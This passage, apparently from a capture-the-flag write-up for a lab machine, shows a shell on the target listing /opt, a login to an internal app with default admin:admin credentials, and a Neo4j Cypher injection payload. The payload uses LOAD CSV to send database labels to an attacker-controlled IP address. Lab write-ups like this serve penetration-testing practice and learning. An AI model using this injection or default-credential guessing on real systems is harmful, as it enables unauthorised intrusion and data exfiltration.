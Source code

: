 Both applications are located in the `/opt` directory:
```console
www-data@only4you:/opt$ ls -ltra
ls -ltra
total 16
drwxr-xr-x  4 root root 4096 Dec  8  2022 .
drwxr-xr-x 17 root root 4096 Mar 30 11:51 ..
drwxr-----  6 dev  dev  4096 Mar 30 11:51 internal_app
drwxr-----  6 dev  dev  4096 Jul 17 21:45 gogs
```

By attempting the admin:admin credentials, we successfully log in to port `8001`:

![login.JPG](images/login.JPG)

We can observe the completed task: `Migrated to a new database (neo4j)`.

As per the information available at https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j, we can employ the following injection to obtain the neo4j labels: `'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.14:8000/?label='+label as l RETURN 0 as _0 //` On http://127.0.0.1:8001/employees:

![neo4j.JPG](images/neo4j.JPG)
